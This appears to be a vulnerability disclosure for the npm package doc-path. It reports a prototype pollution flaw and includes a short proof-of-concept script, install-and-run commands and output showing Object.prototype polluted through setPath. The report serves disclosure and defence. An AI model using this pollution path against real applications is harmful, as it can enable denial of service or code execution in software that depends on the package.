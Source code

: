 # Description

`doc-path` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var docPath = require("doc-path")
var obj = {}
console.log("Before : " + obj.polluted);
docPath.setPath(obj , "constructor.prototype.polluted", "Yes! Polluted");
var obj1 = {}
console.log("After : " + obj1.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i doc-path # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Polluted
```
